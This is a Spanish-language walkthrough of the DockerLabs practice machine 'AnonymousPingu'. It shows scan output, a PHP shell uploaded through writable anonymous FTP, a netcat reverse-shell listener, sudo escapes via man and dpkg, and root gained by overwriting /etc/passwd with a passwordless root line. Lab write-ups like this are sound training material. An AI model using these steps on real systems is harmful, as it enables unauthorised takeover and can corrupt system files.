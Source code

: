 Maquina "AnonymousPingu" de [DockerLabs](https://dockerlabs.es)

Autor: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

Dificultad: Fácil

![dock](./img/dock.png)

# RECONOCIMIENTO

Comenzamos haciendo un escaneo de `nmap`:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 <ip> -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Mon Sep  9 23:17:04 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000016s latency).
Scanned at 2024-09-09 23:17:05 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    1 0        0             118 Jan 01  1970 css
| drwxr-xr-x    1 0        0               0 Apr 28 18:28 heustonn-html
| drwxr-xr-x    1 0        0             574 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28 18:32 index.html
| drwxr-xr-x    1 0        0              62 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33              0 Sep 10 02:07 upload [NSE: writeable]
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Mantenimiento
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  9 23:17:13 2024 -- 1 IP address (1 host up) scanned in 9.18 seconds
```

Como vemos tenemos el puerto 80 abierto y el ftp, el cual tiene login anonimo y además parece que estamos dentro de la propia página, para confirmarlo podemos hacer uso de `gobuster` y ver que directorios o archivos tiene la máquina:

```css
 gobuster dir -u http://<ip> -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 20162]
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/about.html           (Status: 200) [Size: 7816]
/contact.html         (Status: 200) [Size: 8102]
/upload               (Status: 301) [Size: 309] [--> http://172.17.0.2/upload/]
/service.html         (Status: 200) [Size: 9808]
/css                  (Status: 301) [Size: 306] [--> http://172.17.0.2/css/]
/js                   (Status: 301) [Size: 305] [--> http://172.17.0.2/js/]
Progress: 166877 / 882244 (18.92%)
===============================================================
Finished
===============================================================
```

Como podemos ver estamos en la propia página, por lo que teniendo en cuenta que la carpeta `upload` es accesible desde el navegador y que podemos escribir en ella con ftp, tenemos que subir a traves de ftp un php malicioso que nos permita ejecutar comandos dentro de la máquina.

# INTRUSION

Para esto podemos usar el script que hice para esta máquina:

[Script](https://github.com/Maciferna/DockerLabs/blob/main/maquina-anonymouspingu/scripts/intrusion.sh)

Una vez descargado, le damos permisos con `chmod +x intrusion.sh`, luego escuchamos con netcat en el puerto 9090:

```css
nc -nlvp 9090
```

ahora solo ejecutamos el script y ya habremos ganado acceso como www-data.

# ESCALADA DE PRIVILEGIOS

### www-data

Ahora que estamos dentro, haremos el tratamiento de la tty:

```css
script /dev/null -c bash # Lo ejecutamos y presionamos ctrl+Z
stty raw -echo;fg # Ejecutamos y le damos al enter, luego escribimos "reset xterm" y enter
export TERM=xterm && export SHELL=bash
```

Ahora si ejecutamos un `sudo -l` veremos que podemos ejecutar el binario man como "pingu". Ahora ejecutaremos `sudo -u pingu man find` y se nos abrirá un menú, una vez en el menú ponemos `!/bin/bash` y ya pivotaremos a pingu

## Pingu

Si ejecutamos `sudo -l` veremos que se puede ejecutar dpkg como gladys, por lo que ejecutaremos `sudo -u gladys dpkg -l` y en el menú nuevamente `!/bin/bash`.

### Gladys

Ahora, podemos ejecutar chown como gladys, por lo que podemos modificar el passwd eliminando la "x" del usuario root para poder cambiar de usuario sin contraseña, para hacerlo tenemos que ejecutar lo siguientes dos comandos:

```css
sudo chown gladys:gladys /etc/
sudo chown gladys:gladys /etc/passwd
```

Ahora como no tenemos nano, haremos algo a lo bruto, que seria dejar el passwd solo con las cosas de root pero sin la "x", y una vez escalamos instalamos nano y ponemos el passwd como antes. Para hacerlo usaremos `echo`:

```css
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd
```

una vez hecho esto ejecutamos `su` y ya seremos root, pero para que no quede todo corrupto, instalamos nano con `apt install nano`, y luego editamos el `/etc/passwd` pegando esto:

```css
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:996:996:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:103:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
systemd-resolve:x:995:995:systemd Resolver:/:/usr/sbin/nologin
pingu:x:1001:1001::/home/pingu:/bin/bash
gladys:x:1002:1002::/home/gladys:/bin/bash
```

y ahora seremos root sin problemas con los demás usuarios:

![root](./img/root.png)

Gracias por leer.